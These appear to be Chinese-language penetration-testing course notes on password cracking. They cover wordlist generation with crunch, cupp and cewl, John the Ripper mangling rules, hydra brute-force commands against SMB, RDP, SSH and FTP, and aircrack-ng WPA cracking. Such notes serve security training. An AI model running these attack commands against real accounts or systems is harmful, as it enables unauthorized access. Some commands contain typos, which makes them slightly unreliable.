 目标系统实施了强安全措施

* 安装了所有补丁

* 无任何已知漏洞

* 无应用层漏洞

* 攻击面最小化

社会工程学

获取目标系统用户身份

* 非授权用户不受信，认证用户可以访问守信资源
* 已有用户账户权限受限，需要提权
* 不会触发系统报警

身份认证方法

* 你知道什么（账号密码、pin、passphrase）
* 你有什么（令牌、token、key、证书、密保、手机）
* 你是谁（指纹、视网膜、虹膜、掌纹、声纹、面部识别）
* 以上方法结合使用（多因素身份认证）

基于互联网的身份验证仍以账号密码为主要形式

## 密码破解方法

* 人工猜解

    * 垃圾桶工程
    * 被动信息收集

* 基于字典暴力破解（主流）

* 键盘空间字符爆破

* 字典

    * 保存有用户名和密码的文本文件
    * /usr/share/wordlists/
    * /usr/share/wfuzz/wordlist
    * /usr/share/seclists

键盘空间字符爆破

全键盘空间字符

部分键盘空间字符

数字、小写字母、大写字母、符号、空格、瑞典字符、高位ASCII码

### 字典生成工具 —— crunch

crunch<min-len> <max-len> [<charset string>] [options] - <charset string> 默认是小写字符

crunch 6 6 0123456789 -o START -d 2 -b 1mb / -c 100

> -b:按大小分割字典文件（kb/kib、mb/mib、gb/gib）
> -c：每个字典的行数
> 以上两个参数必须与-o START 结合使用
> -d：同一字符连贯出现数量（11/aaa）

crunch 4 4 -f /usr/share/crunch/charset.lst lalpha-sv -o 1.txt

crunch 1 1 -p 12345467890 | more

必须是最后一个参数

最大、最小字符长度失效，但必须存在

与-s参数不兼容（-s指定起始字符串）

crunch 4 4 0123456789 -s 9900 

读取文件中每行内容作为基本字符生成字典

crunch 1 1 -q read



字典组成规则

crunch 6 6 -t @,%%^^ 

@:小写字母 lalpha

，：大写字母 ualpha

% ：数字 numerc

^：符号 



输出文件压缩

crunch 4 4 -t @,%%^^ -z  7z

其他压缩格式：gzip、bzip2、lzma

7z压缩比率最大



crunch 4 4 -f /usr/share/crunch/charset.lst mixalpla-numeric-all-space -o w.txt -t @d@@ -s cdab

crunch 4 5 -p dog cat bird

视为基本字符

crunch 5 5 abc DEF + \t@# -t ,@^%,

+:占位符

\ 转义符（空格符号）



crunch 5 5 -t ddd%% -p dog cat bird

任何不同于-p参数指定的值都可以作为占位符



不会出现大于两个相同字母的字典：crunch 5 5 -d 2@ -t @@@%%



组合应用

 crunch 2 4 0123456789 | aircrack-ng a.cap -e MyESSID -w -

crunch 10 10 12345 --stdout | airolib-ng testdb -import passwd -





按个人信息生成其专属的密码字典

cupp： Common User Password Profiler

git clone https://github.com/Mebus/cupp.git

python3 cupp.py -i

邮箱密码，个人社交媒体密码



通过收集网站信息生成字典

cewl 1.1.1.1 -m 3 -d 3 -e -c -v -w a.txt

> -m：最小单词长度
> -d：爬网深度
> -e：收集包含email地址信息
> -c：每个单词出现次数
> 支持基本、摘要 身份认证
> 支持代理

用户密码变形

基于cewl的结果进行密码变形

末尾增加数字串

字母大小写变化

字母与符号相互替换

字母与数字相互替换

P@$$w0rd



使用John the Ripper 配置文件实现密码动态变型

/etc/john/john.conf

[List.Rules:Wordlist]

$[0-9]$[0-9]$[0-9]

john --wordlist=cewl.txt --rules --stdour >m.txt



[List.Rules:test]

$[0-9]$[0-9]$[0-9]$[a-zA-Z]

$[0-9]$[0-9]$[0-9]$[a-zA-Z]$[a-zA-Z]$[a-zA-Z]$[`!@#$%^&*()_+/]

john --wordlist=cewl.txt --rules=test --stdour >m.txt

john --wordlist=cewl.txt --rules=test HASHFILE



## 在线密码破解—— hydra

Hydra

Windows密码破解

当开了共享

hydra -| administrator -P pass.lst smb://1.1.1.1/admin$ -vVd

当开了3389

hydra -| administrator -P pass.lst rdp://1.1.1.1 -t 1 -vV 

Linux密码破解

hydra -l root -P pass.lst ssh://1.1.1.1 -t 1 -vV

其他服务密码破解

hydra -L user.lst -P pass.lst ftp://1.1.1.1 -s 2121 -e nsr -o p.txt -t 64

图形化界面

xhydra



cd \

net user administrator

net share

netstat -nao

nmap -p 192.168.1.110

